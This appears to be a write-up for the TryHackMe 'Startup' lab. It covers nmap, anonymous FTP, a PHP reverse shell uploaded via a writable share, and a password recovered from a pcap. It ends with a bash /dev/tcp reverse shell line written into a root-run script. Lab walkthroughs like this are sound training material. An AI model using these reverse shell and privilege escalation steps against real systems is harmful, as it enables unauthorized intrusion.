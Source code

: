 # [Startup](https://tryhackme.com/room/startup)
Abuse traditional vulnerabilities via untraditional means.


7/1

Nmap
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.122.230
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
MAC Address: 02:DC:92:CF:20:5F (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Logging into ftp with user anonymous:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
possible user: maya

gobuster:
```
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
```

It looks like the files directory is where the ftp files are. The file is writeable so we can try and put a reverse php shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and it works!
I tried common privesc techniques that did not work so looked around and found a incidents directory with suspicious.pcapnp file so lets download it!

`python -m SimpleHTTPServer 8080`

In the capture, an attacker uses the same method we do to break in and runs `python -c "import pty;pty.spawn('/bin/bash')"` to get a shell, tries a couple of passwords for www-data and lennie, and exits. I tried the password he uses and it works for lennie! c4ntg3t3n0ughsp1c3

The file in lennie's script folder is called /etc/print.sh and if we look at the permission, we are the owner! Lets put a reverse shell in there

`echo "bash -i >& /dev/tcp/10.10.122.230/1234 0>&1" > /etc/print.sh`

And wait for a connection!
